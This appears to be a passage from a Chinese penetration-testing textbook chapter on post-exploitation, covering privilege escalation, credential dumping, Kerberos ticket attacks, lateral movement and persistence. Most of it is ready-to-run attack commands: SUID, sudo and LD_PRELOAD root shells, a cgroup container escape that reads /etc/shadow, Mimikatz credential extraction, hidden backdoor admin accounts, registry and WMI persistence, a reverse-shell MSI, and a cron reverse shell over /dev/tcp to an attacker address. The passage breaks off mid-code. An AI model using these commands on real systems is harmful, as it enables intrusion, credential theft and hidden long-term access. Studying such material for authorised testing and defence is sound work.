



## 2.4 后渗透技术

后渗透（Post-Exploitation）是渗透测试中获取初始访问权限之后的全部技术活动。如果说前几个阶段解决的是"如何进入"的问题，后渗透阶段解决的则是"进入之后能做什么"。这个阶段直接决定了渗透测试的最终价值——能否证明真实的安全风险、能否触及核心资产、能否让管理层真正意识到问题的严重性。

### 后渗透在渗透测试流程中的位置



后渗透不是一个单独的动作，而是一系列相互关联的技术阶段。典型的后渗透流程如下：

1. **权限提升**：从普通用户提升到管理员/root
2. **凭据收集**：提取系统中存储的各类凭据
3. **横向移动**：利用收集的凭据在内网中扩展控制范围
4. **持久化**：建立长期访问通道，防止因重启或密码修改而丢失权限
5. **数据获取与传输**：定位、打包、传输目标数据
6. **痕迹清理与防御规避**：清除日志、规避安全检测

---

### 2.4.1 权限提升

权限提升（Privilege Escalation）是后渗透的第一步。初始获取的访问权限通常是受限的普通用户权限，而渗透测试的核心目标——域控、数据库、核心业务系统——往往需要更高权限才能触及。权限提升的本质是找到系统中权限配置不当的地方，利用它突破当前的权限边界。

#### Linux 权限提升

Linux 提权的核心思路是找到一个以更高权限运行的进程或文件，然后让它执行攻击者的代码。以下是主要的提权路径：

**内核漏洞利用**

Linux 内核漏洞是最直接的提权方式。一旦确认目标内核版本存在已知漏洞，成功率极高。典型的内核漏洞包括：

| 漏洞名称 | CVE编号 | 影响范围 | 原理简述 |
|---------|---------|---------|---------|
| Dirty COW | CVE-2016-5195 | Linux 2.6.22 - 4.8.3 | 竞争条件导致写时复制(COW)机制被绕过，可写入只读内存映射 |
| Dirty Pipe | CVE-2022-0847 | Linux 5.8 - 5.16.11 | pipe缓冲区的flags标志未正确初始化，允许覆写任意只读文件 |
| PwnKit | CVE-2021-4034 | 所有主流Linux发行版的pkexec | Polkit的pkexec程序中的内存越界读写 |
| Looney Tunables | CVE-2023-4911 | glibc 2.34+ 的大多数Linux发行版 | ld.so动态链接器处理GLIBC_TUNABLES时的缓冲区溢出 |

使用内核漏洞提权的操作流程：

```bash
# 1. 确认内核版本
uname -r
cat /etc/os-release

# 2. 搜索对应漏洞利用
searchsploit linux kernel [版本号] privilege escalation

# 3. 编译并上传利用代码到目标
# 在攻击机上编译（静态编译避免库依赖）
gcc -static -o exploit exploit.c
# 传输到目标
scp exploit user@target:/tmp/

# 4. 在目标上执行
chmod +x /tmp/exploit
/tmp/exploit

# 5. 验证提权成功
id
whoami
```

内核漏洞利用的风险在于可能导致系统崩溃（内核panic），在生产环境的渗透测试中应谨慎使用，并提前与客户确认风险接受度。

**SUID/SGID 滥用**

SUID（Set User ID）位允许普通用户以文件所有者的权限执行该文件。系统管理员经常需要设置SUID来完成某些特权操作，但配置不当就会成为提权通道。

```bash
# 查找系统中设置了SUID位的文件
find / -perm -4000 -type f 2>/dev/null

# 查找设置了SGID位的文件
find / -perm -2000 -type f 2>/dev/null

# 同时查找SUID和SGID
find / -perm -6000 -type f 2>/dev/null
```

找到SUID文件后，需要判断它是否可被利用。常见的可利用SUID程序包括：

- **nmap**（旧版本）：`nmap --interactive` 进入交互模式后执行 `!sh`
- **vim**：`vim -c ':!sh'` 通过vim执行shell
- **find**：`find . -exec /bin/sh -p \;` 利用find的-exec参数
- **bash**：`bash -p` 保留特权的shell
- **python**：`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
- **less/more**：在查看文件时输入 `!sh` 执行shell
- **awk**：`awk 'BEGIN {system("/bin/sh")}'`

对于未知的SUID程序，可以使用GTFOBins（https://gtfobins.github.io/）查询是否可被利用。该网站收录了数百个Unix程序的提权方法。

**sudo 配置滥用**

sudo配置不当是Linux提权中最常见的方式之一。关键检查点：

```bash
# 查看当前用户的sudo权限
sudo -l

# 注意以下危险配置：
# (ALL) NOPASSWD: ALL  —— 无需密码执行任何命令
# 允许执行的特定命令中包含shell转义（vim, less, find, awk等）
# 允许以其他用户身份执行命令
```

常见的sudo提权场景：

```bash
# 场景1：sudo vim
sudo vim -c ':!/bin/bash'

# 场景2：sudo less/more
sudo less /etc/shadow
# 进入less后输入 !sh

# 场景3：sudo awk
sudo awk 'BEGIN {system("/bin/bash")}'

# 场景4：sudo env
sudo env /bin/bash

# 场景5：利用LD_PRELOAD（如果env_keep包含LD_PRELOAD）
# 编写恶意共享库
cat > /tmp/pe.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
EOF
gcc -shared -fPIC -nostartfiles -o /tmp/pe.so /tmp/pe.c
sudo LD_PRELOAD=/tmp/pe.so /usr/bin/some_command
```

**计划任务（Cron Job）利用**

Linux的cron守护进程定期执行预定义的任务。如果任务脚本的文件权限配置不当，普通用户可以修改脚本内容，使脚本以root权限执行攻击者的代码。

```bash
# 查看系统级计划任务
cat /etc/crontab
ls -la /etc/cron.*

# 查看用户级计划任务
crontab -l
ls -la /var/spool/cron/

# 检查计划任务引用的文件/目录是否可写
# 如果脚本以root身份运行但文件可被普通用户修改，则可提权
echo 'chmod +s /bin/bash' >> /path/to/writable/script.sh
# 等待cron执行后
/bin/bash -p  # 获取root shell
```

另一种cron利用方式是利用通配符注入：

```bash
# 如果cron脚本中包含类似这样的命令：
# tar czf /tmp/backup.tar.gz /var/www/
# 攻击者可以在目标目录下创建特殊文件名
cd /var/www/
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=bash revshell.sh"
# tar在处理文件时会将这些文件名解析为命令行参数
```

**容器逃逸**

当渗透测试的目标环境运行在容器（Docker、Kubernetes等）中时，容器逃逸是一种特殊的权限提升方式。

```bash
# 检测是否在容器中运行
cat /proc/1/cgroup | grep -i docker
ls -la /.dockerenv

# 方法1：挂载宿主机文件系统
# 如果容器以特权模式运行或有特定的能力
fdisk -l  # 查找宿主机磁盘
mkdir /tmp/host
mount /dev/sda1 /tmp/host
chroot /tmp/host

# 方法2：利用Docker Socket
# 如果容器挂载了Docker Socket
ls -la /var/run/docker.sock
# 安装Docker CLI
curl -sSL https://get.docker.com/ | sh
# 通过socket与宿主机Docker守护进程通信
docker -H unix:///var/run/docker.sock run -it -v /:/host ubuntu chroot /host

# 方法3：利用cgroup notify_on_release
# 创建cgroup，挂载notify_on_release触发器
mkdir /tmp/exploit
mount -t cgroup -o rdma cgroup /tmp/exploit
mkdir /tmp/exploit/x
echo 1 > /tmp/exploit/x/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/exploit/release_agent
echo '#!/bin/sh' > /cmd
echo "cat /etc/shadow > $host_path/output" >> /cmd
chmod +x /cmd
sh -c "echo \$\$ > /tmp/exploit/x/cgroup.procs"
cat /tmp/output
```

#### Windows 权限提升

Windows 提权的技术路线比Linux更复杂，因为Windows的权限模型更加精细，涉及Token、ACL、注册表、服务、驱动等多个层面。

**Token 模拟与窃取**

Windows的访问令牌（Access Token）是操作系统用于标识进程安全上下文的数据结构。如果一个高权限进程的Token可被低权限进程获取，就能实现提权。

```powershell
# 使用Metasploit的incognito模块
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"

# 使用Rubeus进行Token操作
# 模拟其他用户的Token
Rubeus.exe impersonateuser /user:Administrator
```

典型的Token提权场景是当高权限进程派生子进程时，如果当前进程有SeImpersonatePrivilege或SeAssignPrimaryTokenPrivilege特权，就可以窃取并使用该Token。这在Web服务器（IIS、SQL Server）中非常常见。

**Windows 服务漏洞利用**

Windows服务以SYSTEM权限运行，如果服务的二进制文件路径可被修改，或者服务的DLL搜索路径存在缺陷，就可以实现提权。

```powershell
# 查找非标准路径的服务（可能权限配置不当）
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

# 检查服务二进制文件的权限
accesschk.exe /accepteula -uwcqv "Authenticated Users" * /service

# 如果服务二进制文件可写，直接替换
# 方法1：直接替换二进制文件
copy C:\temp\payload.exe "C:\Program Files\Service\service.exe"

# 方法2：DLL劫持
# 找到服务加载的DLL路径，将恶意DLL放到搜索路径中
```

**未引用服务路径（Unquoted Service Path）**

当服务的可执行文件路径包含空格且未用引号括起来时，Windows会按照特定顺序搜索可能的路径：

```text
# 例如服务路径为：
C:\Program Files\My Service\service.exe
# Windows会按以下顺序尝试：
# C:\Program.exe
# C:\Program Files\My.exe
# C:\Program Files\My Service\service.exe
# 攻击者可以在C:\下放置Program.exe来劫持
```

```powershell
# 查找存在未引用路径的服务
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows" | findstr /i /v """
# 或者使用PowerUp
Get-UnquotedService
```

**注册表权限滥用**

Windows服务的配置信息存储在注册表中。如果普通用户对某个服务的注册表键有写入权限，就可以修改服务的可执行文件路径。

```powershell
# 查找可写的注册表键
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services

# 修改服务的ImagePath
reg add HKLM\SYSTEM\CurrentControlSet\Services\VulnService /v ImagePath /t REG_EXPAND_SZ /d "C:\temp\payload.exe" /f
```

**AlwaysInstallElevated**

如果以下两个注册表值都设置为1，那么任何MSI安装包都会以SYSTEM权限运行：

```powershell
# 检查是否存在此配置
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# 如果都返回1，可以生成恶意MSI
msfvenom -p windows/shell_reverse_tcp LHOST=攻击机IP LPORT=端口 -f msi -o shell.msi
msiexec /quiet /qn /i shell.msi
```

**提权辅助工具**

在实际渗透测试中，通常使用自动化工具快速识别提权路径：

| 工具 | 平台 | 功能 |
|------|------|------|
| LinPEAS | Linux | 全面的Linux提权信息收集，检查SUID、sudo、cron、内核版本等 |
| WinPEAS | Windows | 全面的Windows提权信息收集，检查服务、注册表、Token等 |
| linux-exploit-suggester | Linux | 根据内核版本推荐可用的内核漏洞 |
| PowerUp | Windows | PowerShell模块，检查Windows常见提权向量 |
| Seatbelt | Windows | 安全审计工具，收集系统安全配置信息 |
| BeRoot | 跨平台 | 检查常见提权配置错误 |

```bash
# LinPEAS使用示例
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# WinPEAS使用示例（在目标Windows上）
.\winPEASany.exe quiet fast
```

---

### 2.4.2 凭据收集与利用

凭据收集是后渗透中连接"权限提升"和"横向移动"的关键桥梁。一次成功的凭据收集可能直接打开通向域控的大门。

#### 内存凭据提取

系统中运行的进程内存中经常包含明文密码、哈希值或Kerberos票据。这些凭据是横向移动最有价值的资源。

**Mimikatz** 是Windows凭据提取的事实标准工具：

```powershell
# 提取明文密码和哈希
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# 提取Kerberos票据
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

# 提取SAM数据库中的本地账户哈希
mimikatz.exe "privilege::debug" "lsadump::sam" "exit"

# 提取LSA中的凭据（需要SYSTEM权限）
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"

# DCSync攻击（需要域管理员权限）
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt" "exit"
```

**Linux 上的凭据提取**：

```bash
# 提取内存中的凭据（需要root权限）
# 方法1：从/proc文件系统读取进程内存
gdb -p <PID> -batch -ex 'dump memory /tmp/mem.dump 0x0 0x7fffffffffff'
strings /tmp/mem.dump | grep -i pass

# 方法2：从密码管理器或浏览器中提取
# Firefox/Chrome的密码数据库
find /home -name "logins.json" -o -name "Login Data" 2>/dev/null

# 方法3：从SSH代理中提取
# 如果ssh-agent正在运行，可以提取已加载的私钥
SSH_AUTH_SOCK=/tmp/ssh-XXX/agent.NNN ssh-add -l
```

#### 哈希传递攻击（Pass the Hash）

Pass the Hash（PtH）是Windows横向移动中最经典的技术之一。攻击者不需要破解密码明文，直接使用NTLM哈希就能通过身份认证。

```bash
# 使用Impacket的psexec.py
psexec.py -hashes :<NTLM_HASH> administrator@<目标IP>

# 使用CrackMapExec批量验证
crackmapexec smb <目标IP段> -u administrator -H <NTLM_HASH> --exec-method smbexec

# 使用evil-winrm
evil-winrm -i <目标IP> -u administrator -H <NTLM_HASH>

# 使用Impacket的wmiexec.py
wmiexec.py -hashes :<NTLM_HASH> administrator@<目标IP>
```

PtH之所以有效，是因为NTLM协议在认证过程中并不传输密码明文，而是直接传输哈希值。只要哈希匹配，认证就会通过。微软虽然在后续版本中引入了Protected Users安全组和Restricted Admin模式来缓解PtH，但在很多内网环境中仍然普遍存在。

#### Kerberos 票据攻击

在Active Directory环境中，Kerberos是主要的认证协议。针对Kerberos的票据攻击是高级横向移动技术的核心。

**Golden Ticket**（黄金票据）：使用域的KRBTGT账户哈希伪造任意用户的TGT（Ticket Granting Ticket）。KRBTGT哈希一旦泄露，攻击者可以在域内模拟任何用户，包括域管理员，且票据有效期可以设置为任意长度。

```bash
# 使用Mimikatz生成Golden Ticket
mimikatz.exe "kerberos::golden /domain:corp.local /sid:<域SID> /krbtgt:<KRBTGT_NTLM_HASH> /user:administrator /ptt" "exit"

# 使用Impacket的ticketer.py
ticketer.py -nthash <KRBTGT_HASH> -domain-sid <域SID> -domain corp.local administrator

# 设置KRB5CCNAME环境变量后使用
export KRB5CCNAME=/path/to/administrator.ccache
psexec.py -k -no-pass corp.local/administrator@<目标DC>
```

**Silver Ticket**（白银票据）：使用服务账户的NTLM哈希伪造TGS（Ticket Granting Ticket）。相比Golden Ticket，Silver Ticket的范围更小（仅针对特定服务），但更隐蔽，因为不需要与域控通信。

```bash
# 生成针对CIFS服务的Silver Ticket
mimikatz.exe "kerberos::golden /domain:corp.local /sid:<域SID> /target:fileserver.corp.local /service:cifs /rc4:<服务账户NTLM_HASH> /user:administrator /ptt" "exit"
```

**Kerberoasting**：请求域内服务账户的TGS票据，然后离线暴力破解票据中加密的服务密码。这个攻击之所以有效，是因为任何域用户都可以请求任意SPN（Service Principal Name）的TGS票据，而票据使用服务账户的NTLM哈希加密。

```bash
# 使用Impacket的GetUserSPNs.py
GetUserSPNs.py corp.local/user:password -request -outputfile kerberoast_hashes.txt

# 使用Rubeus（Windows端）
Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt

# 使用Hashcat破解
hashcat -m 13100 kerberoast_hashes.txt wordlist.txt
```

**AS-REP Roasting**：针对未启用预认证（Pre-Authentication）的域用户账户。攻击者可以请求这些用户的AS-REP响应，然后离线破解。

```bash
# 使用Impacket
GetNPUsers.py corp.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# 使用Rubeus
Rubeus.exe asreplist /outfile:asrep_hashes.txt

# 破解
hashcat -m 18200 asrep_hashes.txt wordlist.txt
```

#### 凭据存储位置

了解系统中凭据的存储位置是有效收集的前提：

| 存储位置 | 操作系统 | 内容 | 提取方式 |
|---------|---------|------|---------|
| SAM数据库 | Windows | 本地用户NTLM哈希 | reg save HKLM\SAM / reg save HKLM\SYSTEM |
| LSA Secrets | Windows | 服务账户密码、自动登录凭据 | Mimikatz lsadump::secrets |
| NTDS.dit | Windows AD | 所有域用户哈希 | DCSync或卷影复制 |
| LSASS进程内存 | Windows | 明文密码、哈希、票据 | Mimikatz sekurlsa:: |
| /etc/shadow | Linux | 用户密码哈希 | 需要root权限直接读取 |
| SSH密钥 | 跨平台 | SSH私钥 | ~/.ssh/id_rsa |
| 浏览器密码 | 跨平台 | 网站登录凭据 | 专用提取工具 |
| 命令历史 | 跨平台 | 曾在命令行中输入的密码 | .bash_history, PSReadLine |

```bash
# Windows：提取SAM和SYSTEM
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM
# 使用secretsdump.py离线提取
secretsdump.py -sam SAM -system SYSTEM LOCAL

# Windows：提取NTDS.dit（需要域控权限）
# 方法1：卷影复制
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\temp\
# 方法2：DCSync
secretsdump.py -just-dc-ntlm corp.local/administrator:password@<DC_IP>
```

---

### 2.4.3 横向移动

横向移动（Lateral Movement）是在内网中从一台受控主机扩展到其他主机的过程。目标是逐步接近高价值资产（域控、数据库、文件服务器、核心业务系统）。横向移动的速度和隐蔽性直接关系到渗透测试的成败。

#### 横向移动技术概览



#### SMB 协议横向移动

SMB（Server Message Block）是Windows文件共享和远程管理的核心协议，也是横向移动最常用的通道。

**PsExec**：微软Sysinternals工具集中的远程命令执行工具，通过SMB将可执行文件上传到远程主机的ADMIN$共享，然后通过IPC$命名管道创建服务来执行。

```bash
# 使用Impacket的psexec.py
psexec.py corp.local/administrator:password@<目标IP>

# 使用CrackMapExec
crackmapexec smb <目标IP> -u administrator -p password -x "whoami"

# 使用smbexec.py（更隐蔽，不上传文件）
smbexec.py corp.local/administrator:password@<目标IP>
```

PsExec的特征明显（创建服务、写入ADMIN$共享），容易被EDR和SIEM检测。替代方案：

- **smbexec.py**：不创建服务，通过SMB共享直接执行命令
- **atexec.py**：通过计划任务服务执行命令
- **dcomexec.py**：通过DCOM对象执行命令

**CrackMapExec 批量操作**：

```bash
# 批量验证凭据
crackmapexec smb 192.168.1.0/24 -u user -p password

# 批量执行命令
crackmapexec smb 192.168.1.0/24 -u user -H <hash> -x "ipconfig"

# 提取SAM哈希
crackmapexec smb <目标IP> -u user -p password --sam

# 枚举共享
crackmapexec smb <目标IP> -u user -p password --shares

# 搜索共享中的敏感文件
crackmapexec smb <目标IP> -u user -p password -M spider_plus -o READ_ONLY=true
```

#### WMI 远程执行

WMI（Windows Management Instrumentation）是Windows内置的管理框架，通过DCOM或WinRM协议通信。WMI执行比PsExec更隐蔽，因为它不创建服务，不写入共享。

```bash
# 使用Impacket的wmiexec.py
wmiexec.py corp.local/administrator:password@<目标IP>

# 使用wmic（Windows内置）
wmic /node:<目标IP> /user:administrator /password:password process call create "cmd.exe /c whoami > C:\temp\out.txt"

# 使用PowerShell的Invoke-WmiMethod
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami" -ComputerName <目标IP> -Credential $cred
```

#### WinRM/PSRemoting

WinRM（Windows Remote Management）是微软基于WS-Management协议的远程管理方案。PowerShell Remoting基于WinRM构建，在启用了PowerShell远程管理的域环境中非常普遍。

```bash
# 使用evil-winrm（支持Pass the Hash）
evil-winrm -i <目标IP> -u administrator -H <NTLM_HASH>

# PowerShell远程连接
Enter-PSSession -ComputerName <目标IP> -Credential $cred

# 执行单条命令
Invoke-Command -ComputerName <目标IP> -ScriptBlock { whoami }
```

#### RDP 横向移动

RDP（Remote Desktop Protocol）是最直观的远程访问方式，但也是最容易被发现的（需要图形界面交互、会在目标上留下大量痕迹）。

```bash
# 使用xfreerdp
xfreerdp /v:<目标IP> /u:administrator /p:password /dynamic-resolution

# 哈希传递RDP（需要Restricted Admin模式）
xfreerdp /v:<目标IP> /u:administrator /pth:<NTLM_HASH>

# 使用SharpRDP（命令行RDP，更隐蔽）
SharpRDP.exe computername=<目标IP> command=whoami username=administrator password=password
```

#### SSH 横向移动

在Linux/混合环境中，SSH是主要的远程访问方式。

```bash
# 使用已获取的私钥
ssh -i /path/to/private_key user@<目标IP>

# 密码认证
ssh user@<目标IP>

# SSH端口转发（通过跳板机访问内网）
ssh -L 3389:内网主机:3389 user@跳板机
# 然后连接本地3389端口即可访问内网主机的RDP

# 动态端口转发（SOCKS代理）
ssh -D 1080 user@跳板机
# 配合proxychains使用
proxychains nmap -sT -Pn 内网主机

# SSH Agent Forwarding（利用已认证的SSH会话）
ssh -A user@跳板机
# 在跳板机上可以直接使用本地的SSH密钥
```

#### 横向移动的隐蔽策略

在成熟的安全运营环境中，横向移动需要考虑隐蔽性：

1. **使用合法协议**：优先使用目标环境中原有的管理协议（WinRM、SSH、RDP），而不是引入异常协议
2. **避免写入磁盘**：使用内存执行技术（PowerShell Invoke-Expression、反射加载DLL）
3. **使用域凭据**：使用合法获取的域凭据而非暴力破解，降低触发账户锁定告警的风险
4. **时间分散**：不要在短时间内连接大量主机，分散活动时间
5. **正常化流量**：使用目标环境中的标准工具和端口

---

### 2.4.4 持久化

持久化（Persistence）是确保即使目标系统重启、密码更改或修补漏洞后，攻击者仍然能够保持访问权限。持久化技术的选择需要在可靠性和隐蔽性之间取得平衡。

#### Windows 持久化技术

**后门账户**

```powershell
# 创建隐藏的本地管理员账户（$后缀使其在net user中不显示）
net user admin$ your_password123! /add
net localgroup administrators admin$ /add

# 修改注册表隐藏用户（在登录界面和控制面板中不显示）
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v admin$ /t REG_DWORD /d 0 /f
```

**计划任务持久化**

```powershell
# 创建定期执行的计划任务
schtasks /create /tn "WindowsUpdate" /tr "C:\temp\payload.exe" /sc hourly /mo 1 /ru SYSTEM

# 使用XML定义更隐蔽的任务
schtasks /create /tn "SystemCheck" /xml C:\temp\task.xml /ru SYSTEM
```

**注册表启动项**

```powershell
# 用户级（登录时执行）
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemUpdate" /t REG_SZ /d "C:\temp\payload.exe" /f

# 系统级（任何用户登录时执行）
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsService" /t REG_SZ /d "C:\Windows\Temp\svchost.exe" /f

# 其他注册表持久化位置：
# HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
# HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
# HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
# HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
# HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
```

**WMI 事件订阅持久化**

WMI事件订阅是Windows中最为隐蔽的持久化方式之一。它通过WMI的事件系统在特定条件触发时执行恶意代码，不依赖文件、注册表或服务，因此极难被传统安全工具检测。

```powershell
# 创建WMI事件过滤器（触发条件：系统启动后60秒）
$filterArgs = @{
    EventNameSpace = 'root/cimv2'
    Name = 'SystemBootFilter'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 60 AND TargetInstance.SystemUpTime < 120"
    QueryLanguage = 'WQL'
}
$filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $filterArgs

# 创建WMI事件消费者（执行的操作）
$consumerArgs = @{
    Name = 'SystemBootConsumer'
    CommandLineTemplate = 'C:\Windows\Temp\payload.exe'
}
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $consumerArgs

# 绑定过滤器和消费者
$bindingArgs = @{
    Filter = $filter
    Consumer = $consumer
}
Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $bindingArgs
```

**DLL 劫持持久化**

DLL劫持利用Windows DLL搜索顺序的特性。当一个可执行文件加载DLL时，Windows会按特定顺序搜索DLL路径。如果攻击者将恶意DLL放在搜索顺序靠前的位置，就可以劫持合法程序的DLL加载。

```powershell
# 常见的DLL劫持目标：
# 1. 系统服务加载的非标准DLL
# 2. 计划任务中引用的程序
# 3. 应用程序安装目录中的DLL

# 分析目标程序的DLL依赖
# 使用Process Monitor过滤"NAME NOT FOUND"和"PATH NOT FOUND"
# 将恶意DLL放到程序搜索路径中
```

**COM 对象劫持**

```powershell
# 修改COM对象的注册表指向
# 在HKCU\SOFTWARE\Classes\CLSID\下创建恶意COM对象的注册表项
# 当系统尝试加载该COM对象时，会执行攻击者的代码
```

**Golden Ticket / Diamond Ticket 持久化**

在Active Directory环境中，Golden Ticket是最强大的持久化手段。只要KRBTGT哈希不被重置（通常管理员很少主动重置），Golden Ticket就一直有效，即使用户修改密码也无法阻止。

```bash
# KRBTGT哈希重置周期建议（防御侧）
# 微软建议每180天重置一次KRBTGT密码（需要重置两次，因为AD保留历史哈希）
```

#### Linux 持久化技术

**SSH 密钥持久化**

```bash
# 在目标用户的authorized_keys中添加攻击者的公钥
echo "ssh-rsa AAAAB3... attacker@kali" >> ~/.ssh/authorized_keys

# 如果.ssh目录不存在
mkdir -p ~/.ssh
chmod 700 ~/.ssh
echo "ssh-rsa AAAAB3... attacker@kali" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

**计划任务持久化**

```bash
# 添加cron任务（每分钟执行一次反弹shell）
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/攻击机IP/端口 0>&1'") | crontab -

